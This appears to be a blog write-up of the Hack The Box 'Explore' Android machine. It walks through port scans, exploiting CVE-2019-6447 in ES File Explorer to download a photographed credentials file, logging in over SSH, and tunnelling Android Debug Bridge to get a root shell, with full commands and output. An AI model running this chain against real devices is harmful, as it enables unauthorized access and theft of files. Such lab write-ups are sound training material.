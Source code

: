```yaml
---
layout: post
title: "HTB: Explore"
author: Andrew Cherney
date: 2023-02-20 20:18:32
tags: htb easy-box
icon: "assets/icons/explore.png"
post_description: "Android can be a beast to pentest and enumerate, but this box does a decent job of giving leads. The credentials are found in what I can only assume is the user writing it down and taking  a picture not to forget. Then root can be gained through the locally open 5555 port for android debug bridge."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $nmap -sC 10.10.10.247
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-22 20:31 CST
Nmap scan report for 10.10.10.247
Host is up (0.054s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
2222/tcp open     EtherNetIP-1
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp filtered freeciv
```

These ports certainly are odd and indicate it is an android device. How do I know? Well first this is an Android box, but second that port 5555 is the Android Debug Bridge used for basic app maintenance (installing/debuging) and can give a command prompt. The state is filtered however, so likely this is hosted as a service but filtered to local traffic, I'll try that as a last resort. 

<h2>Ports near the void</h2>

It does strike me as odd that there are only these two ports. I decide to scan all of the ports available to see if anything turns up.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $nmap -sC 10.10.10.247 -p1-65535
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-22 21:58 CST
Nmap scan report for 10.10.10.247
Host is up (0.057s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
2222/tcp  open     EtherNetIP-1
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
33391/tcp open     unknown
42135/tcp open     unknown
59777/tcp open     unknown
```

A little better, but not by much. In order my search yields that 33391 is unassigned, 42135 is occasionally for game servers, and 59777 is almost certainly ES File Explorer. Right out of the gate on speedguide.net it states the service has been vulnerable to CVE-2019-6447, an arbitrary file read and application execution vulnerability. 

<h1>User as u0_a76</h1>

<h2>CVE-2019-6447</h2>

[This is a proof of concept for that CVE](https://www.exploit-db.com/exploits/50070) and looking through it if you just send a post with json it'll let you run local commands on the Android shell. That said likely I cannot get a reverse shell since Android restricts its command usage pretty well. Instead with this remote command usage I can enumerate the system and search for hidden password files or images.

The commands the exploit denotes are as follows:

```
    print("  listFiles         : List all Files.")
    print("  listPics          : List all Pictures.")
    print("  listVideos        : List all videos.")
    print("  listAudios        : List all audios.")
    print("  listApps          : List Applications installed.")
    print("  listAppsSystem    : List System apps.")
    print("  listAppsPhone     : List Communication related apps.")
    print("  listAppsSdcard    : List apps on the SDCard.")
    print("  listAppsAll       : List all Application.")
    print("  getFile           : Download a file.")
    print("  getDeviceInfo     : Get device info.")
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $python3 CVE-2019-6447.py getDeviceInfo 10.10.10.247

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : VMware Virtual Platform
ftpRoot : /sdcard
ftpPort : 3721
```

In running the basic list commands in order I come across the file named **creds.jpg** which seems odd.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $python3 CVE-2019-6447.py listPics 10.10.10.247

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $python3 CVE-2019-6447.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $mv out.dat creds.jpg
```

![credentials](/img/explore/Explore_credentials.png)

<code>kristi</code> with password <code>Kr1sT!5h@Rp3xPl0r3!</code> should give us access. So with my machinations I still am not sure why in the initial cracking of this box I was thinking since port 8080 is http traffic that port 2222 would be ssh traffic. I tried it then and it worked.

In retrospect I see that in the initial nmap scan the port 2222 returns an ssh-hostkey, which is indicative of some sort of server with ssh connection capabilities.

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $ssh kristi@10.10.10.247 -p 2222
Password authentication
Password: 
:/ $ whoami
u0_a76
```

<h1>Root</h1>

<h2>SSH Tunneling</h2>

So that port on 5555 is Android Debug Bridge, and I have a hunch if I ssh tunnel to the machine I can run remote commands. 

```bash
ssh kristi@10.10.10.247 -p 2222 -L 5555:localhost:5555
```

<h2>Android Debug Bridge</h2>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $adb devices
List of devices attached
emulator-5554	device
```

Well that's promising. Now I can put adb in root mode and gain a root shell on the machine.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $adb root
* daemon not running; starting now at tcp:5037
* daemon started successfully
restarting adbd as root
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $adb -s emulator-5554 shell
x86_64:/ # whoami                                                                          
root
```

<h2>Finding the Flags</h2>

Since this is an android system and there are no home or root directories I need to find the flags. I suspect they might be in **/data** but I can toss out a search for both.

```bash
x86_64:/data # find / -name "root.txt" 2>/dev/null
/data/root.txt
1|x86_64:/data # find / -name "user.txt" 2>/dev/null                                       
/storage/emulated/0/user.txt
/mnt/runtime/write/emulated/0/user.txt
/mnt/runtime/read/emulated/0/user.txt
/mnt/runtime/default/emulated/0/user.txt
/data/media/0/user.txt
1|x86_64:/data # cat /data/root.txt
f04fc82b6d49b41c9---------------
x86_64:/data # cat /data/media/0/user.txt
f32017174c7c7e8f5---------------
```
